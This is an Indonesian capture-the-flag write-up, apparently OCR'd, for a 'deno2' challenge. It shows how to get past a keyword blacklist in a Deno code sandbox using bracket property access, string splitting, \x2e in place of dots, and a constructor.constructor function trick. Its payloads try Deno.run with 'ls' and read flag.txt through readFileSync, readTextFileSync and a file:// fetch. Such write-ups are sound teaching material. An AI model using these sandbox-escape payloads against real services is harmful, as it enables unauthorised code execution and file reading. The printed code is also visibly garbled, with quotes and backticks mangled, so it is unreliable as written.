 # DENO2

Alat

- Terminal
- Node
- Sublime text

Untuk menyelesaikan deno2 kita harus mencari tahu cara untuk mem-bypass const BLACK_LIST. Untungnya kita diberikan dua petunjuk yang memberitahu kita bahwa ada cara lain untuk memanggil fungsi/atribut/metode dari objek selain menggunakan titik, yaitu dengan menggunakan metode 

```jsx
object[`function`]
```

Disini kita sudah tahu cara mem-bypass pemanggilan fungsi tapi bagaimana dengan pemanggilan deno?.

Disitulah Deno masuk daftar hitam, dengan sedikit tekad dan pengetahuan yang minim saya bertanya kepada Mr. Google. Setelah berselancar di Google saya menemukan sebuah artikel yang menyatakan bahwa kita dapat memanggil objek dengan "ini" terlebih dahulu, misalnya this.deno.run().

kemudian dengan petunjuk kedua yang diberikan, saya menggunakan teknik fungsi anonim agar lebih mudah (menurut saya). Fungsi anonim bisa dibuat dengan menulis 

```jsx
({})["constructor"]["constructor"]("Code")()
```

() pada akhir code untuk memanggil fungsi anonim.

Dalam tantangan ini, kita tidak bisa menggunakan "" dan '', jadi kita menggantinya dengan (backtick). Untuk payload pertama saya buat seperti ini :
```jsx
({})[constructor][constructor](this[\\De\ + \\no\][\\run\]({cmd: [\\ls\]}) )()
```

code di atask ternyata tidak berhasil, karena saya yakin ini harus berhasil. Saya mencoba kode di deno1 dan berhasil. Hmmm kemudian saya cek file dockernya ternyata deno.run tidak boleh, jadi saya ganti dengan membaca langsung filenya seperti yang saya tulis di deno1 yaitu dengan deno.readfilesync(). kodenya akan seperti ini:

```jsx

({})[constructor][constructor](decoder = new TextDecoder(\\utf-8\);data = this[\\De\+\\no\][\\readFileSync\](\\flag\x2etxt\);return decoder[\\decode\](data);)()
```

catatan:\x2e untuk menggantikan . (dot)

Code di atas dapat berhasil. karena menurut saya jawaban saya terlalu panjang, saya bertanya kepada penulis, yang saya tanyakan seperti ini "apakah ada cara lain untuk mendapatkan flag", dan ternyata ada cara lain yaitu dengan menggunakan

```jsx
[][constructor][constructor](return De+no\\x2ereadTextFileSync(\\flag\x2etxt\))()
```

dan

```jsx
[][constructor][constructor](return fetch(\\file:///ctf/flag\x2etxt\)\\x2ethen((a)=>a\\x2etext()\\x2ethen((b )=>console\\x2elog(b))))()
```

terima kasih kepada mas Dimas yang telah membantu saya.

### Referensi yang mungkin bisa membantu

[# HackTheBox "Business CTF" - discordvm - Node.js Sandbox Escape](https://www.youtube.com/watch?v=pzh6--wIp24&t=534s)

[Escaping nodejs vm](http://Gist.github.com/jcreedcmu/4f6e6d4a649405a9c86bb076905696af)
